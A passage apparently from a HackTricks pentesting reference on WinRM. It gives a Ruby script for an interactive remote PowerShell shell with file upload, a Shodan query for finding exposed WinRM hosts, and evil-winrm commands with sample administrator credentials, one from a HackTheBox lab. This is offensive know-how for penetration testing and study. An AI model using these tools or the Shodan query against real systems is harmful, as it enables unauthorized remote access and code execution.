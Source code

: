 ```ruby
command=""
file_manager = WinRM::FS::FileManager.new(conn)


conn.shell(:powershell) do |shell|
until command == "exit\n" do
output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
print(output.output.chomp)
command = gets
if command.start_with?('UPLOAD') then
upload_command = command.tokenize
print("Uploading " + upload_command[1] + " to " + upload_command[2])
file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
end
command = "echo `nOK`n"
end
output = shell.run(command) do |stdout, stderr|
STDOUT.print(stdout)
STDERR.print(stderr)
end
end
puts("Exiting with code #{output.exitcode}")
end
```
## Shodan

* `port:5985 Microsoft-HTTPAPI`

## References

* [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/)

## HackTricks Automatic Commands
```
Protocol_Name: WinRM    #Protocol Abbreviation if there is one.
Port_Number:  5985     #Comma separated if there is more than one.
Protocol_Description: Windows Remote Managment        #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for WinRM
Note: |
Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

sudo gem install winrm winrm-fs colorize stringio
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p ‘MySuperSecr3tPass123!’

https://kalilinuxtutorials.com/evil-winrm-hacking-pentesting/

ruby evil-winrm.rb -i 10.10.10.169 -u melanie -p 'Welcome123!' -e /root/Desktop/Machines/HTB/Resolute/
^^so you can upload binary's from that directory        or -s to upload scripts (sherlock)
menu
invoke-binary `tab`

```